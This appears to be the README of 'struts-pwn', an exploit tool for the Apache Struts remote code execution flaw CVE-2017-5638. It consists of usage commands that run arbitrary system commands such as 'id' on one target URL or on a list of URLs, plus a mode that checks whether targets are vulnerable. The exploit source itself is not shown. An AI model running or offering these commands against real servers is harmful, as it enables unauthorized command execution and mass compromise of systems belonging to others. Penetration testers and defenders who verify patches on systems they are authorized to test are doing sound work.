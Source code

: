 # Apache-Struts
### An exploit for Apache Struts CVE-2017-5638 ###


# **Usage** #

## Testing a single URL. ##
`python struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`

## Testing a list of URLs. ##
`python struts-pwn.py --list 'urls.txt' -c 'id'`

## Checking if the vulnerability exists against a single URL. ##
`python struts-pwn.py --check --url 'http://example.com/struts2-showcase/index.action'`

## Checking if the vulnerability exists against a list of URLs. ##
`python struts-pwn.py --check --list 'urls.txt'`
